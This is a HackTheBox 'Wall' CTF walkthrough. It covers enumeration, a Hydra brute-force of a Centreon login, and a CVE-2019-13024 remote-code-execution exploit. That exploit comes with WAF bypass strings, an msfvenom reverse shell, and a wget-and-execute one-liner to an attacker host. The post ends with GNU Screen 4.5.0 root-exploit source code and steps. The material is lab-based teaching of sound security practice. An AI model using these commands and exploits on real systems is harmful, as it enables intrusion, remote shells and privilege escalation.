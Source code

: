 ```yaml
---
layout: post
title: "HackTheBox - Wall Walkthrough"
author: "joona"
---
```


![](/images/wall/wall.jpg)

Wall is a Linux box created by [Askar][Askar] and it's based on RCE discovered by him in Centreon network/system monitoring tool.
It's rated as medium difficulty and was one the first active HTB boxes that I pwned by myself.
<br/><br/>

## Enumeration
Starting off with nmap:
>nmap -Pn -sV -sC -p- 10.10.10.157 -oA nmap/wall

We only have two open ports: `22` (OpenSSH 7.6p1) and `80` (Apache 2.4.29).
<br/>

Navigating to the webpage on port 80 we get the default Apache2 installation page. Let's do directory enumeration
with gobuster:<br/>
>gobuster dir -u 10.10.10.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

`10.10.10.157/monitoring` authentication prompt<br/>
`10.10.10.157/aa.php` displays only the number '1'<br/>
`10.10.10.157/panel.php` displays the text 'Just a test for php file !'<br/>

At this point I was pretty stumped. Firing `Nikto` at the website we notice that the
allowed HTTP Methods are: `GET`, `POST`, `OPTIONS` and `HEAD`.<br/>

Sending a POST request to 10.10.10.157/monitoring/ we get an interesting page `/centreon`.<br/>
![](/images/wall/monpost.jpg)<br/>

At `10.10.10.157/centreon` we have a `Centreon v.19.04.0` login page.<br/>

![](/images/wall/centreon.jpg)<br/>
The default credentials for the Centreon Web UI are `admin:centreon`, but these don't work.

Using Hydra to brute-force the login we get the correct password: `password1`
>hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-form-post "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Unauthorized"

<br/>
## Reverse Shell

This version of Centreon is vulnerable to Remote Code Execution ([CVE-2019-13024][CVE-2019-13024]).
There's a good blogpost made by the author of this machine [Centreon v19.04 Remote Code Execution][RCE].
This exploit uses `nagios_bin` parameter to execute arbitrary commands. <br/>

The blogpost explains the exploit in good detail and even gives us a [Python script][Script]! But that would of course be too easy
so the exploit doesn't work for this machine without modifications.

I modified the Python script to print out all requests and responses and saw that `send_payload` request gives us
a **403 Forbidden** response. If we change the value of NAGIOS_BIN to nothing, the request goes through.

{% highlight python %}
# this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1}".format(ip, port),
{% endhighlight %}

It seems that there's a Web Application Firewall (WAF) blocking the request.

I tried multiple different WAF bypass techniques such as:<br/>
`/???/??n/?ing 10.10.x.x`<br/>
`/u's'r/b'i'n/w'g'e't' 10.10.x.x:8000`<br/>

But to no avail. I realized that if the nagios_bin-parameter contains a whitespace, WAF blocks it.

At this point I decided to start following the blog post mentioned earlier manually.
For this we need to create a PHP/meterpreter reverse shell:
>msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=10.10.x.x lport=1339 > shell.txt

If you save the changes at http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1 and then intercept the POST request with Burp,
you can edit the nagios_bin value to include whitespaces:
>wget http://10.10.14.2:8000/shell.txt -O /tmp/shelli.php;php -f /tmp/shelli.php #

This one-liner downloads the reverse meterpreter/PHP shell and executes it. Remember the **#hashtag** in the end
to comment out the rest of the line.

![](/images/wall/nagiospost.jpg)<br/>
(Open the image in new tab to make it bigger).

Now we have the arbitrary command as nagios_bin value wit all dem glorious whitespaces (IP censored).
![](/images/wall/nagiosbin.jpg)<br/>

After this set up a HTTP server and a Metasploit multi/handler:<br/>
`python3 -m http.server`<br/>
In Metasploit: <br/>
`use exploit/multi/handler` <br/>
`set payload php/meterpreter/reverse_tcp`<br/>

To trigger the code we need to send the following POST request (replace the PHPSESSID cookie):<br/>
>POST /centreon/include/configuration/configGenerate/xml/generateFiles.php HTTP/1.1<br/>
Host: 10.10.10.157<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0<br/>
Accept: application/xml, text/xml, */*; q=0.01<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: http://10.10.10.157/centreon/main.get.php?p=60901&o=c&server_id=1&poller=<br/>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br/>
X-Requested-With: XMLHttpRequest<br/>
Content-Length: 33<br/>
Cookie: PHPSESSID=2pq8phulqrn4achohfj2b1rsbp<br/>
Connection: close<br/><br/>
poller=1&debug=true&generate=true<br/>

We should now get a Meterpreter shell as user `www-data`.
Remember to edit the nagios_bin at the web-panel to something else so you don't spoil the machine for others!
<br/><br/>

## Privilege Escalation
Let's move to `/tmp` and download [LinEnum.sh][LinEnum] script to enumerate the host.<br/>
LinEnum.sh results show us that **screen-4.5.0** has a SUID-bit set.
For this Google gives us [GNU Screen 4.5.0 - Local Privilege Escalation][Screen].

The exploit didn't work right off the bat so I decided to do it manually. Chopping the exploit code to pieces:<br/>
>**libhax.c**
{% highlight python %}
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
{% endhighlight %}

>**rootshell.c**
{% highlight python %}
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
{% endhighlight %}

Compiling:<br/>
`gcc -fPIC -shared -ldl -o libhax.so libhax.c`<br/>
`gcc -o rootshell rootshell.c`<br/>

Now download the files from the target machine /tmp folder:<br/>
`wget 10.10.x.x:8000\libhax.so`<br/>
`wget 10.10.x.x:8000\rootshell`<br/>

Next, manually walk through the exploit execution flow:<br/>
`/bin/screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"`<br/>
`cd /etc`<br/>
`umask 000`<br/>
`/bin/screen-4.5.0 -ls`<br/>
`/tmp/rootshell`<br/>

After running **rootshell** we should have now a root shell. We can now get the
**/home/shelby/user.txt** and **/root/root.txt** since we jumped straight from user *www-data* to *root*.

DONE! :)
Thank you for reading.


[LinEnum]: https://github.com/rebootuser/LinEnum
[Askar]: https://twitter.com/mohammadaskar2
[CVE-2019-13024]: https://nvd.nist.gov/vuln/detail/CVE-2019-13024
[Script]: https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py
[RCE]: https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/
[Screen]: https://www.exploit-db.com/exploits/41154
